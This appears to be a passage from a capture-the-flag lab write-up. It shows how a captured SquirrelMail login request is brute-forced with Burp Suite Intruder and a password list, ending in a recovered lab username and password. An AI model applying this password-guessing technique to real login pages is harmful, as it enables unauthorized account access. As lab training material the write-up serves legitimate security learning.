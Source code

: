 ## Burpsuite Intruder 
* we can capture the login request from `10.10.234.119/squirrelmail`

```
POST /squirrelmail/src/redirect.php HTTP/1.1
Host: 10.10.234.119
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 81
Origin: http://10.10.234.119
Connection: close
Referer: http://10.10.234.119/squirrelmail/src/login.php
Cookie: squirrelmail_language=deleted; SQMSESSID=2oq7v3pbt9sfhsls7s0b3jvsm5
Upgrade-Insecure-Requests: 1

login_username=milesdyson&secretkey=§test§&js_autodetect_results=1&just_logged_in=1
```
* we set a position on the `secretkey` field which is where the password list will be used 
* let's load `log1.txt` under `Payload Options[Simple List]`

![12f1fb202f7733bb0a008fe86c367557.png](../../../../_resources/12f1fb202f7733bb0a008fe86c367557.png)

![9c2a60390d971d902db7e88f11ec5f07.png](../../../../_resources/9c2a60390d971d902db7e88f11ec5f07.png)

* after starting the attack we find a valid username and password combination - `milesdyson:cyborg007haloterminator`
